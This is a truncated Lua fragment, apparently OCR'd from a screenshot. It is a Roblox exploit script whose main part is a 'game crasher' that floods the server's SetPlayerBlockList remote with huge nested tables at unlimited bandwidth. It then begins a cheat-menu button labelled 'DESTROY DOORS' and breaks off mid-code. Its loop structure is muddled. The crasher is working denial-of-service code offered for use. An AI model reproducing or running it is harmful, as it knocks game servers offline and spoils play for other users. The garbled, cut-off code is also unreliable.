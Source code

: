 local toggleActive = false
local function repeatRemote()
while toggleActive do
--This is a simple roblox game crasher made by casanova
--Github cfreemepq
--fixed script*

while wait(0.6) do --// don't change it's the best
game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge)
local function getmaxvalue(val)
   local mainvalueifonetable = 499999
   if type(val) ~= "number" then
       return nil
   end
   local calculateperfectval = (mainvalueifonetable/(val+2))
   return calculateperfectval
end

local function bomb(tableincrease, tries)
local maintable = {}
local spammedtable = {}

table.insert(spammedtable, {})
z = spammedtable[1]

for i = 1, tableincrease do
    local tableins = {}
    table.insert(z, tableins)
    z = tableins
end

local calculatemax = getmaxvalue(tableincrease)
local maximum

if calculatemax then
     maximum = calculatemax
     else
     maximum = 999999
end

for i = 1, maximum do
     table.insert(maintable, spammedtable)
end

for i = 1, tries do
     game.RobloxReplicatedStorage.SetPlayerBlockList:FireServer(maintable)
end
end

bomb(250, 2) --// change values if client crashes.
end
wait(0.0) -- intervalo de 1 segundo entre cada repetição
end
end
local Section = Tab:AddSection({
	Name = "Doors"
})
Tab:AddButton({
Name = "DESTROY DOORS",
Callback = function()
local UserInputService = game:GetService("UserInputService")
local Mouse = game:GetService("Players").LocalPlayer:GetMouse()
local Folder = Instance.new("Folder", game:GetService("Workspace"))
local Part = Instance.new("Part", Folder)
local Attachment1 = Instance.new("Attachment", Part)
Part.Anchored = true
Part.CanCollide = false
Part.Transparency = 1